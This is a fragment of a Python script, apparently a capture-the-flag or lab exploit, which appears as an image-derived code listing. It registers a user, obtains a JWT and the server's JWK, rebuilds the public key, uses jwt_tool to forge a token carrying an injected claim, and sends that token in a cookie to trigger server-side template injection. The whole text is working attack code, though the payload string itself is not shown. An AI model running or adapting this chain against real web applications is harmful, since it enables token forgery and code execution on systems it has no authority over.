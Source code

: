```python
    # Run jwt_tool and capture the output
    result = subprocess.run(command, capture_output=True, text=True)

    # Extract the modified token from jwt_tool output
    for line in result.stdout.splitlines():
        if line.startswith("[+] "):
            modified_token = line.split(" ")[1].strip()
            print(f"[*] Modified JWT: {modified_token}")
            return modified_token

    print(f"[!] Modified JWT not found in jwt_tool output")
    return None

# Test SSTI injection
def test_ssti(modified_token):
    cookies = {'token': modified_token}
    print(f"[*] Sending modified JWT in cookies to test SSTI injection...")
    response = requests.get(CAT_URL, cookies=cookies)

    if response.status_code == 200:
        print("[*] SSTI payload executed successfully!")
        print(f"[*] Server response:\n{response.text}")
    else:
        print(
            f"[!] SSTI execution failed: {response.status_code} - {response.text}")

def main():
    username = "cat"
    password = "cat"

    # Step 1: Register user
    if not register_user(username, password):
        print("[!] Failed to register user.")
        return

    # Step 2: Login and retrieve JWT
    jwt_token = login_user(username, password)
    if not jwt_token:
        print("[!] Failed to retrieve JWT.")
        return

    # Step 3: Download JWK (public key)
    jwk = download_jwk()
    if not jwk:
        print("[!] Failed to download JWK.")
        return

    # Step 4: Recreate public key PEM from JWK
    rsa_public_key_from_jwk(jwk)

    # Step 5: Modify JWT claim (inject payload) using jwt_tool
    modified_jwt = modify_jwt_with_tool(jwt_token)
    if not modified_jwt:
        print("[!] Failed to modify JWT using jwt_tool.")
        return

    # Step 6: Test SSTI injection by sending the modified JWT
    test_ssti(modified_jwt)

if __name__ == "__main__":
    main()
```
